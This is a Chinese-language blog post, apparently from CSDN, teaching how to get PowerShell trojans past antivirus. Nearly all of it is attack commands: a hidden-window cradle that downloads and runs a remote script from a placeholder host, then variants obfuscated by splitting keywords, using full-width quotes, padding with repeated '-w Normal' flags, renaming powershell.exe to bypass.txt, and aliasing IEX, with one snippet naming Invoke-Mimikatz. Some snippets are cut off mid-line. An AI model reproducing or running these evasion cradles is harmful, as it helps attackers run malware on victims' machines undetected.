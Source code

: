 ## Powershell免杀思路

先介绍一下powershell[木马](https://so.csdn.net/so/search?q=%E6%9C%A8%E9%A9%AC&spm=1001.2101.3001.7020)最常用的方式，一般都为远程下载然后执行的方法，特点就是：直接内存运行，无文件落地。
例如：

```
powershell.exe -nop -w hidden -c "IEX ((new-object net.webclient).downloadstring('http://x.x.x.x/a'))"
```

通常使用过程中当调用powershell进行远程下载执行时，会被杀软进行拦截。那么针对Powershell的免杀有两个思路：

1. 对ps1文件进行免杀处理
2. 对Powershell的行为进行免杀处理

## 免杀方法

### 1. 使用关键字拆分进行bypass

---

在实战过程中，一些杀软是会对powershell命令当中的参数、函数进行一个检测，那么此时就可以对关键字进行拆分来进行绕过。
例如，拆分前的powershell命令为：

```
powershell.exe "IEX ((new-object net.webclient).downloadstring('http://x.x.x.x/a'))”
```

假如杀软是对http这个关键字进行检测，那么我们可以对其进行如下拆分进行绕过，拆分后的powershell命令为：

```
powershell "$a='IEX((New-Object Net.WebClient).DownloadString(''ht';$b='tp://x.x.x.x/a''));Invoke-Mimikatz';IEX ($a+$b)”
1
```

假如是对downloadstring这个函数进行检测，那么我们可以使用replace来进行替换函数拆分downloadstring进行一个绕过，拆分后的powershell命令如下：

```
powershell "$a='IEX(New-Object Net.WebClient).Downlo';$b='123(''http://x.x.x.x'')'.Rep
```

### 2. Fuzz思想进行bypass

---

可以利用Fuzz的思想进行bypass，例如可以使用中文字符里的单引号进行bypass
例如，利用单引号混淆前的powershell命令为：

```
powershell.exe "IEX ((new-object net.webclient).downloadstring('http://x.x.x.x/a’))”
1
```

使用单引号混淆后的命令为：

```
powershell.exe "IEX ((new-object net.webclient).downloadstring('ht‘+’tp://x.x.x.x/a’))”
1
```

### 3. 超长命令bypass

---

可以使用超长的命令来进行bypass。
例如，利用超长命令bypas前的powershell命令为：

```
powershell.exe "IEX ((new-object net.webclient).downloadstring('http://x.x.x.x/a’))”
1
```

进行超长命令构造后的powershell命令为：

```
powershell.exe -w Normal -w Normal -w Normal -w Normal -w Normal -w Normal -w Normal -w Normal -w Normal -w Normal -w Normal -w Normal -w Normal -w Normal -w Normal -w Normal -w Normal -w Normal -w Normal -w Normal -w Normal -w Normal -w Normal -w Normal -w Normal -w Normal -w Normal -w Normal -w Normal -w Normal -w Normal -w Normal -w Normal -w Normal -w Normal -w Normal -w Normal -w Normal -w Normal -w Normal -w Normal -w Normal -w Normal -w Normal w Normal -w Normal -w Normal -w Normal -w Normal -w Normal IEX ((new-object net.webclient).downloadstring('http://x.x.x.x/a'))
1
```

### 4. 使用copy命令进行bypass

---

这里讲一个骚操作，一些杀软是检测powershell这个使用的动作，那么我们可以使用windows的copy命令，将powshell进行拷贝命名为其他的，例如，使用copy命令将powershell拷贝一个并命名为bypass.txt
命令：

```
copy C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe bypass.txt
1
```

那么后面就可以这样子来执行powershell来进行绕过杀软检测：

```
bypass.txt IEX ((new-object net.webclient).downloadstring('http://x.x.x.x/a'))
1
```

### 5. 混合bypass

---

就是将前面讲述的几种方法进行混合使用。
例如：

```
powershell.exe -w Normal -w Normal -w Normal -w Normal -w Normal -w Normal -w Normal -w Normal -w Normal -w Normal -w Normal -w Normal -w Normal -w Normal -w Normal -w Normal -w Normal -w Normal -w Normal -w Normal -w Normal -w Normal -w Normal -w Normal -w Normal -w Normal -w Normal -w Normal -w Normal -w Normal -w Normal -w Normal -w Normal -w Normal -w Normal -w Normal -w Normal -w Normal -w Normal -w Normal -w Normal -w Normal -w Normal -w Normal -w Normal -w Normal -w Normal -w Normal -w Normal -w Normal set-alias -name key -value IEX; key(New-Object Net.WebClient).DownloadString('ht‘+’tp://x.x.x.x/a')
1
```

## 结尾

当然除了上述的几种方式可以进行bypass以外，还有其他的方法，例如可以将 powershell命令打包成exe程序进行绕过，可以使用C、Python、go等，其中查杀率：C > Python > go
